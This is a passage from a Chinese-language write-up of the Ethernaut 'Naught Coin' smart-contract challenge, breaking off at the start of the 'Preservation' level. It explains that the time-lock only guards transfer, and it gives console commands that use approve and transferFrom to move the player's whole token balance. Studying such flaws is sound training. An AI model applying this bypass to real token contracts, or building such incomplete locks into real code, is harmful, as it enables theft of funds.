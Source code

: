         function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
            super.transfer(_to, _value);
        }

        // Prevent the initial owner from transferring tokens until the timelock has passed
        modifier lockTokens() {
            if (msg.sender == player) {
                require(now > timeLock);
                _;
            } else {
                _;
            }
        } 
    } 
    ```

根据 [ERC-20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) 创建了一个代币，合约在 https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol

题目给 transfer 函数加了 modifier，判断时间大于十年才会通过，发出 transfer

但是根据 ERC-20 的合约源码，可以发现还有一个 transferFrom 函数可以用来转移代币

```solidity
function transferFrom(
    address from,
    address to,
    uint256 amount
) public virtual override returns (bool) {
    address spender = _msgSender();
    _spendAllowance(from, spender, amount);
    _transfer(from, to, amount);
    return true;
}
```

而这要消耗 allowance，但是 approve 函数并没有施加限制，所以先 approve 一定的数量，然后 transferFrom 就可以转移出 player 身上的全部代币余额

```js
> (await contract.balanceOf(player)).toString()
'1000000000000000000000000'
> contract.approve(player, "1000000000000000000000000")
> contract.transferFrom(player, instance, "1000000000000000000000000")
> (await contract.balanceOf(player)).toString()
'0'
```

---

## Preservation

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;
